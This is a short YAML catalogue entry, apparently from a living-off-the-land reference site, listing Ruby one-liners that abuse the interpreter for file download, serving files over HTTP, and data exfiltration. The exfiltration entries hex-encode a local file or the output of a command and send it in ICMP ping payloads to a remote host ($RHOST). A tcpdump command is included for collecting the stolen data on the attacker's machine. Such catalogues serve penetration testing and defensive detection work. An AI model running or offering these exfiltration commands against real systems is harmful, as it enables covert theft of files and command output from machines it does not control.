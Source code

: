 ```yaml
---
functions:
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        ruby -e 'require "open-uri"; download = open(ENV["$URL"]); IO.copy_stream(download, ENV["$LFILE"])'
  server:
    - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
      code: |
        ruby -run -e httpd . -p $LPORT
  data-exfiltration:
    - description: |
        Capture ICMP packets embedded in ping requests.
        Run `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` on the attacker box to collect the data.             
        ⚠️ Increase the timeout flag based on the amount of data.                             
        ⚠️ Manual parsing or reconstruction is required.  

        Send local file content over ICMP using hex-encoded payloads.
      code: |
        ruby -e 'data=File.read("$LFILE").unpack("H*")[0];
        0.step(data.size-1,16){|i| system("ping -c1 -p #{data[i,16]} $RHOST") }'
    - description: Send command output over ICMP using hex-encoded payloads.
      code: |
        ruby -e 'data=%x{$CMD}.unpack("H*")[0];
        0.step(data.size-1,16){|i| system("ping -c1 -p #{data[i,16]} $RHOST") }'
---
```

